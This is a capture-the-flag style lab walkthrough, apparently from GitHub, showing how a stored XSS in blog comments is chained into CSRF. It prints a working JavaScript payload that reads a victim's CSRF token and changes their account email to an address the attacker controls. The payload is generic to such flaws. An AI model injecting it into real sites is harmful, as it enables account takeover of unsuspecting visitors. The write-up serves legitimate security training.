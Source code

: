 # Lab: Exploiting XSS to perform CSRF

 This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter 


# Step 1 Find XSS in blog comments

I want to create a simple alert POC script in a blog comment and see if it executes when I view the comment:

**payload**
```html
<script>alert(document.domain)</script>
```
![image](https://user-images.githubusercontent.com/83407557/211019454-47cfdc52-e085-4318-9fa0-9b099ade73a8.png)

When I view the comment I get a alert box:

![image](https://user-images.githubusercontent.com/83407557/211019586-258b22b7-cb9c-43c9-87ff-143f8fdec1e9.png)

# Step 2 create a CSRF payload

I want to make a POC that changes my email, I login and make the request to change it to test@test.com:

![image](https://user-images.githubusercontent.com/83407557/211019843-119133f6-9444-4f24-ab98-5aed93d40dd4.png)

I then find the request in my HTTP history:

![image](https://user-images.githubusercontent.com/83407557/211020063-2cb91a4a-9234-4944-9313-fdbc5ab9cd12.png)

I see that there is a csrf token, and that I need to have the victim make a POST request to /my-account/change-email. So I need to have the victim load their /my-account page, pull out the csrf token, and then use it to make a POST request to their /my-account/change-email page. This can be done using the following:

```html
<script>
var pwn = new XMLHttpRequest();
pwn.onload = email;
pwn.open('get','/my-account',true);
pwn.send();
function email() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var NewEmail = new XMLHttpRequest();
    NewEmail.open('post', '/my-account/change-email', true);
    NewEmail.send('csrf='+token+'&email=hermh4cks@gmail.com')
};
</script>
```
# Step 3 store the XSS->CSRF payload

I want to add the above to another comment and see if my email gets changed to hermh4cks@gmail.com:

![image](https://user-images.githubusercontent.com/83407557/211023131-490bc8b5-8130-4a7a-a43f-6f7ba73751cd.png)

I view the post:

![image](https://user-images.githubusercontent.com/83407557/211023231-ba1983ca-26ab-458f-9de9-f08939449b85.png)

And see that my email has been changed:

![image](https://user-images.githubusercontent.com/83407557/211023328-388eb17e-a141-431c-b991-fc454a1a0ae8.png)

Anyone else that views the post will now also have their email (if they are logged in) to hermh4cks@gmail.com, which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/211023471-f9f02ebe-1e32-4dc2-88f8-9e7997d25749.png)
